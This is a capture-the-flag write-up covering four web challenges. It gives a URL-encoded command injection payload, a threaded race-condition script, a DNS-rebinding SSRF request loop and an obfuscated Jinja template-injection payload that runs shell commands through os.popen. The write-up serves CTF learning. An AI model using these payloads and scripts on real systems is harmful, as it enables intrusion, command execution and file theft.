



# Traveler
## Solution
Command injection: 



We can bypass with ``%26`` (aka ``&``) or with ``%0d%0a``(aka CRLF) work as well :

``payload``: ``Single%0d%0als%20-lsa`` 



Read flag: ``Single%0d%0acat%20/flag.txt``



# Quiz
## Solution 
This chall is all about race condition when submitting answers

Reference: [here](https://bizflycloud.vn/tin-tuc/race-condition-la-gi-lam-sao-de-khai-thac-20180116193609705.htm)

So the solution here is to create multi thread and send the request at the same time

```
#!python3
import requests
from multiprocessing.dummy import Pool as ThreadPool
cookies={
    'INGRESSCOOKIE':'1647109930.516.13470.455133|df18c7a37b01201195c3bf2ff6aa23c8',
    'connect.sid':"s%3AI0J6D-OLWqntaWNpYGx_lQsEcNBtDW1m.WiioLQU6iuskoVWIDBjbDHaXIyuDLpIg%2FpakO5eIWYM"
}
json_data = {"questionNumber":2,"answer":"10"}

def runner(d):
	r1 = requests.post('https://quiz.ctf.intigriti.io/submitAnswer', cookies=cookies,json=json_data)
	r2 = requests.get('https://quiz.ctf.intigriti.io/user', cookies=cookies)

pool = ThreadPool(40)
result = pool.map_async(runner,range(40))
r2 = requests.get('https://quiz.ctf.intigriti.io/buyFlag', cookies=cookies)
print(r2.text)

#Congratulations! Here is your flag: 1337UP{this_is_a_secret_flag}
```

# Dead Tube
## Solution
DNS Rebinding:

Use [this](https://lock.cmpxchg8b.com/rebinder.html) to gererate host name for dns rebinding between 127.0.0.1 and ``https://deadtube.ctf.intigriti.io/`` (aka ``35.205.87.74``)

hostname: ``7f000001.23cd574a.rbndr.us``

```
#!python3

import requests

data={
    'link':'http://7f000001.23cd574a.rbndr.us:8080/flag'
}
url='https://deadtube.ctf.intigriti.io/preview'
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
for i in range(1000):
    r=requests.post(url,headers=header,data=data)
    if "1337" in r.text:
        print(r.text)
        break
```

flag: 1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}

# 1 truth, 2 lies
## Solution

sourcecode: [here](./src/app.py)

SSTI: I use this payload to bypass as much as i possibly can:

``{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"
``

script:

```
#!python3

import requests

url="https://1truth2lies.ctf.intigriti.io/"

path="""
 ▄█    ▄▄▄▄███▄▄▄▄         ▄█    █▄  ███    █▄   ▄█       ███▄▄▄▄      ▄████████    ▄████████    ▄████████ ▀█████████▄   ▄█          ▄████████ 
███  ▄██▀▀▀███▀▀▀██▄      ███    ███ ███    ███ ███       ███▀▀▀██▄   ███    ███   ███    ███   ███    ███   ███    ███ ███         ███    ███ 
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▀    ███    ███   ███    ███   ███    ███ ███         ███    █▀  
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀   ███    ███  ▄███▄▄▄██▀  ███        ▄███▄▄▄     
███▌ ███   ███   ███      ███    ███ ███    ███ ███       ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ▀███████████ ▀▀███▀▀▀██▄  ███       ▀▀███▀▀▀     
███  ███   ███   ███      ███    ███ ███    ███ ███       ███   ███   ███    █▄  ▀███████████   ███    ███   ███    ██▄ ███         ███    █▄  
███  ███   ███   ███      ███    ███ ███    ███ ███▌    ▄ ███   ███   ███    ███   ███    ███   ███    ███   ███    ███ ███▌    ▄   ███    ███ 
█▀    ▀█   ███   █▀        ▀██████▀  ████████▀  █████▄▄██  ▀█   █▀    ██████████   ███    ███   ███    █▀  ▄█████████▀  █████▄▄██   ██████████ 
                                                ▀                                  ███    ███                           ▀"""

payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat *')|attr('read')()}}"

# payload=r"{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /*')|attr('read')()}}"
header={
    'Content-Type': 'application/x-www-form-urlencoded'
}
r=requests.get(url+path+'?input='+payload)
print(r.text)
```

``flag:flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}``